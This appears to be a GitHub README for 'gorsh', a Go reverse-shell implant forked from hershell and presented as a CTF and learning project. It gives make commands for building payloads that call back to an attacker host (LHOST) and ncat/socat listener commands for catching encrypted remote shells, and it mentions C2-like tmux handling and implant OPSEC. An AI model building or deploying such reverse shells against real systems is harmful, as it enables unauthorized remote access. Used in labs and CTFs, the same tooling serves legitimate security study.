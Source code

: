 # gorsh

[go]lang [r]everse [sh]ell

![](https://i.imgur.com/L7E1T2b.png)

Originally forked from - [sysdream/hershell](https://github.com/sysdream/hershell)

## Motivation

Learn go.  
Make a throwaway reverse shell for things like CTFs.  
Learn about host-based OPSEC considerations when writing an implant.

## Fork Changes
Changes after fork:

* Uses tmux as a pseudo-C2-like interface, creating a new window with each agent callback
* Situational Awareness output on new shells
* Removed Meterpreter functionality
* Removed Shellcode execution
* Remove the use of passing power/shell commands at the gorsh prompt
* Add common file operation commands that use go instead of power/shell

TODO:

Potentially add reverse socks5 proxy functionality - Using
[Numbers11/rvprxmx](https://github.com/Numbers11/rvprxmx)


## Getting started

Check out the [official documentation](https://golang.org/doc/install) for an intro to developing
with Go and setting up your Golang environment (with the `$GOPATH` environment variable).

### Building the payload

First, you'll need to generate your certs:

```bash
$ make depends
```

To simplify things, read the provided Makefile. You can set the following environment variables:

-`GOOS`: the target OS
-`GOARCH`: the target architecture
-`LHOST`: the attacker IP or domain name
-`LPORT`: the listener port

See possible`GOOS`and`GOARCH`variables [here](https://golang.org/doc/install/source#environment).

For the `make` targets, you only need the`LHOST`and`LPORT`environment variables.

Generate with:

```bash
$ make {windows,macos,linux}{32,64} LHOST=example.com LPORT=443
```

## Catching the shell

The `local/start.sh` kicks off a tmux session and creates new windows on every new connection.

Shells can also be caught with:

* socat (not working on macos)
* ncat
* openssl server module
* metasploit multi handler (with a `python/shell_reverse_tcp_ssl` payload)

__Examples__

```bash
$ ncat --ssl --ssl-cert server.pem --ssl-key server.key -lvp 1234
$ socat stdio OPENSSL-LISTEN:443,cert=server.pem,key=server.key,verify=0
```

Once executed, you will be provided with the gorsh shell.
Type `help` to show what commands are supported.

## Credits

Initial Work - Ronan Kervella `<r.kervella -at- sysdream -dot- com>`

Modifications - f47h3r - [@f47h3r_b0](https://twitter.com/f47h3r_b0)
